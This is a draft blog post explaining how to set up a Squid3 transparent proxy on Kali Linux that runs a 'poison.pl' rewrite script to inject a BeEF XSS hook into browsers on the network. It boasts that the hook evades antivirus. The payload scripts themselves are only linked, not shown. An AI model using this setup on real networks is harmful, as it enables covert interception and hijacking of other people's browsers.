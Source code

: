 ```yaml
---
layout: post
title: Kali Linux Squid3 Beef-XSS Proxy
meta:
posted:
category: blog
draft: true
---
```


<h3>Getting Started</h3>

Pros
<ul>
	<li>Gets by Anti-Virus Software</li>
	<li>Supports multiple devices that support Javascript</li>
</ul>

Cons
<ul>
	<li>777 in web dictionary</li>
	<li>Comment Injection</li>
	<li>Only Unencrypted Browsing</li>
	<li>Robust Server / Performance Latency</li>
</ul>


<code>apt-get update</code><br>
<code>apt-get dist-upgrade</code><br>
<code>apt-get -y install squid3</code><br>

<code># kate -> Open: /etc/squid3/squid.conf</code><br>
<code># Edit (Line 588): acl localnet src 192.168.0.0/16</code><br>
<code># Edit (Line 644): http_access allow localnet</code><br>
<code># Edit (Line 868): http_port 3128 transparent</code><br>
<code># Add (Line: *end*): url_rewrite_program /root/poison.pl</code><br>
<code># Save</code>

<code>chmod 755 *pl</code><br>
<code>ls -l *pl</code><br>

<code>mkdir /var/www/html/tmp</code><br>
<code>chown nobody:nogroup /var/www/html/tmp</code><br>
<code>chmod 777 /var/www/html/tmp</code><br>
<code>service apache2 restart</code><br>
<code>service squid3 restart</code><br>
<code>clear</code>

<h3 style="padding-bottom:15px;">Squid3 Poison Pearl Script</h3>

<script src="https://gist.github.com/matrixfox/790e489506105c33f797.js"></script>

<h3 style="padding-bottom:15px;">JavaScript Payload</h3>
<script src="https://gist.github.com/matrixfox/541e1e9ca79aa54f42da.js"></script>
